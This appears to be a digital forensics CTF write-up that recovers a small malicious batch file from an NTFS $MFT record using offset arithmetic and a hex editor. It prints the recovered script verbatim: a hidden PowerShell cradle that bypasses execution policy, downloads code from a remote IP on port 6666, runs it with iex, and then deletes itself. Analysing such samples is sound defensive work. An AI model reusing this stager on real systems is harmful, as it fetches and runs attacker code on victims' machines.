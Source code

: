 ## Recover Malicious bat

### Background

NFTS stores data about each file in a record that is 1024 bytes (1 kb)
long. Files that are small enough (typically around 900 bytes) are
stored in the MFT, using the extra space that's already reserved and
saving the trouble of having to go out to disk to get it.

### Identify Offset

Looking at the `invoice.bat` file, the size of the file is 286 bytes.
That means that the file should be stored entirely in the MFT.

To get the offset in the MFT for the file in question, I'll look at the
"Entry Number" for that file:

[![](/img/image-20240414161828259.png)*Click for full size
![image*](/img/image-20240414161828259.png)

Each entry is 1024 bytes, so that offset to this file is 23436 \* 1024 =
23998464 = 0x16E3000 (Task 5).

### Get File Contents

I'll open the `$MFT` file in HxD (a nice Windows Hex editor) and go
(Ctrl-G) to the offset 0x16E3000:

[![](/img/image-20240414162600092.png)*Click for full size
![image*](/img/image-20240414162600092.png)

The filename and raw data are immediately visible. The other metadata
includes all the timestamps and permissions data, but in a binary format
that's not human readable.

I'll copy out the `.bat` file text:



    @echo off
    start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGFW9uIGV0dw==') -UseBasicParsing|iex"
    (goto) 2>nul & del "%~f0"



This script is starting by turning off echo, to not print commands run
to the screen. Then it runs a PowerShell cradle that will issues a
request to `http://43.204.110.203:6666` and download a file, passing
what comes back to `iex` (short for `Invoke-Expression`). The C2 IP and
port are 43.204.110.203:6666 (Task 6).

### Binary Files
